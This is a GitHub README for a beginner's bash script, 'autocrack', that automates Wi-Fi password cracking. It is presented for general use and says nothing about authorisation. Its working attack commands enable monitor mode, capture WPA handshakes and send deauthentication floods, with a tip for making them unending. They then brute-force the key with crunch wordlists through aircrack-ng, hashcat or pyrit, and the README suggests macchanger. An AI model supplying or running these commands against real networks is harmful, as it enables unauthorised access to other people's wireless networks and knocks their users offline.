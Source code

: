 # autocrack
Make aircrack-ng 1.6 works under bash (absolute beginner's script).

YOU ARE FREE TO DOWNLOAD AND EDIT THIS CODE!


prerequisite:
- linux os (debian base was used)
- wifi adapter or a laptop with adapter that support monitor mode


make the script run:
- copy the autocrack.sh into a new directory
- open terminal and change the mode to executable (chmod +x autocrack.sh)
- run (sudo ./autocrack.sh)
- password will output in (password.txt)
- and do your thing!


some commands:
- put on monitor mode (airmon-ng start $int)
- use to capture all access point (airodump-ng -w mytable --output-format csv --write-interval 1 $mon_int)
- use to capture handshake and send deauthentication packet'replace 25 with 0 to send infinit deauthentication packet (airodump-ng --bssid "$bssid" -c "$ch" -w "$essid" "$mon_int" & aireplay-ng --deauth 25 -a "$bssid" "$mon_int") 
- make a wordlist and pass it to aircrack-ng to scan for match (crunch $min $max $char|aircrack-ng -b $bssid -w- $cap_file -l password.txt)
- if already have wordlist (aircrack-ng -b $bssid -w $wordlist $cap_file -l password.txt)


for GPU cracking:
- with hashcat (crunch $min $max $char | hashcat -m2500 -a0 -o password.txt $hccapx_file)
- with pyrit (crunch $min $max $char | pyrit -r $cap_file -b $bssid -i- -o password.txt attack_passthrough)


software merit:
- macchanger
- scrunch (https://github.com/skriachko/scrunch)


and as usual ENJOY!
